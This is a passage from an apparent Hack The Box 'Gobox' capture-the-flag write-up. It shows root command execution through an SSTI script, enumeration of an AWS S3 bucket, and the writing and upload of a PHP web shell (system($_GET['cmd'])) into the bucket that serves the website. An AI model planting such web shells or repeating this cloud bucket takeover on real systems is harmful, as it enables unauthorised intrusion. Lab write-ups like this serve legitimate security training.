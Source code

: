After some testing, we realize that we are unable to create a reverse shell connection using the SSTI vulnerability. We shall create a script to allow us to execute commands.

```
┌──(HTB)─(kali㉿kali)-[~/Desktop/gobox]
└─$ python3 script.py
Command: id
uid=0(root) gid=0(root) groups=0(root)
@email.com
Command:
```

### AWS
Looking into the ```hostname```, we realize that we might be in an AWS EC2 instance.

```
Command: hostname
aws
@email.com
```

Let us try to list S3 buckets on the AWS EC2 instance. From the output, we can see that there is a bucket called website and we shall list the contents of the website bucket as well. From the output, we can see that the contents of the website bucket seems like what was hosted on the webpage.

```
Command: aws s3 ls
2022-05-15 02:30:26 website
@email.com
Command: aws s3 ls s3://website
                           PRE css/
2022-05-15 02:30:26    1294778 bottom.png
2022-05-15 02:30:26     165551 header.png
2022-05-15 02:30:26          5 index.html
2022-05-15 02:30:26       1803 index.php
@email.com
```

Looking at the contents of the website bucket, we realize that there is an index.php file. This might be the index.php file used for http://gobox.htb:80. Let us download the index.php to the /tmp/index.php and examine the file in more detail. Examining the downloaded file at /tmp/index.php, we realize that is matches the source code of index.php file at http://gobox.htb:80

```
Command: aws s3 cp s3://website/index.php /tmp/index.php
download: s3://website/index.php to ../../tmp/index.php         
@email.com
```

Next, let us write a webshell on the /tmp directory and copy it over to the website bucket on s3.

```
Command: echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php
@email.com
Command: cat /tmp/shell.php
<?php system($_GET["cmd"]); ?>
@email.com
Command: aws s3 cp /tmp/shell.php s3://website      
upload: ../../tmp/shell.php to s3://website/shell.php             
@email.com
```
